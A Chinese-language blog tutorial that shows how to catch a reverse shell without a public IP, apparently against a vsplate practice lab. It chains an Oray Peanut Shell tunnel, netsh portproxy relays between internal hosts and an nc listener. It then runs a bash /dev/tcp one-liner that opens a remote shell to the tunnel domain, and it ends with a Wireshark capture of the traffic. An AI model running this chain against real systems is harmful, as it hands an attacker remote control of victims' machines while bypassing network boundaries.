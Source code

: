 ﻿---
layout:     post
title:      "不需要公网ip也能反弹shell"
subtitle:   "欢迎浏览"
date:       2021-11-20 23:39:00
author:     "zhangsanjin"
header-img: "img/bg/hello_world.jpg"
catalog: true
tags:
- 内网穿透
---



﻿﻿﻿**不需要公网ip也能反弹shell**

**1、下载花生壳客户端，点击映射数，自动打开web控制台**

下载链接：https://hsk.oray.com/download/

![](/assets/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.001.png)

**2、点击添加映射**

![](/assets/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.002.png)

**3、填入**：

0x01映射类型：tcp

0x02外网域名：2531j09e25.wicp.vip(自动分配的一个)

0x03内网主机：192.168.1.102（花生壳客户端转发流量到内网的一台机器ip）

0x04内网端口：54322(内网的一台机器ip的监听端口)

![](/assets/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.003.png)

**4、192.168.1.102内网主机代理转发netsh设置：**

    netsh interface portproxy add v4tov4 listenaddress=192.168.1.102 listenport=54322 connectaddress=192.168.1.104 connectport=54322

解释：在192.168.1.102机器上开启监听端口54322，转发流量至：192.168.1.104:54322另一台内网机器上，确保IP Hepler服务已开启，监听端口已监听，命令：```netstat -ano | findstr :54322```，备注：```taskkill /pid 95728 /F``` 强制杀死进程,强制杀死后需要开启IP Helper服务

![](/assets/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.004.png)

**5、192.168.1.104内网主机代理转发netsh设置：**


    netsh interface portproxy add v4tov4 listenaddress=192.168.1.104 listenport=54322 connectaddress=192.168.136.128 connectport=54322


解释：在192.168.1.104机器上开启监听端口54322，转发流量至：192.168.136.128:54322虚拟机上，确保IP Hepler服务已开启，命令： ```netstat -ano | findstr :54322```监听端口已监听，备注：```taskkill /pid 3532 /F ```强制杀死进程

![QQ截图20210911140208](/assets/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.005.jpeg)

**6、192.168.136.128虚拟机监听端口：54322，宿主机：192.168.1.104**

执行：

    nc -lvvnp 54322

![QQ截图20210911140816](/assets/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.006.jpeg)

**7、执行反弹shell命令,靶机链接：https://www.vsplate.com/labs.php#**

    bash -i &> /dev/tcp/2531j09e25.wicp.vip/19478 0>&1

解释：

2531j09e25.wicp.vip：花生壳web控制台上的域名

19478：花生壳web控制台上的端口


![](/assets/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.007.png)

**8、可以看到，成功反弹shell**

![QQ截图20210911141252](/assets/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.008.jpeg)

**9、Wireshark抓包分析：**

在机器192.168.1.104抓包，监控Vmware network Adapter VMnet8网卡和无线网卡，可以看到，192.168.1.102向192.168.1.104（本机）发包，然后，192.168.136.1虚拟ip（本机）向192.168.136.128发包

![QQ截图20210911142425](/assets/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.009.png)

**结束！**
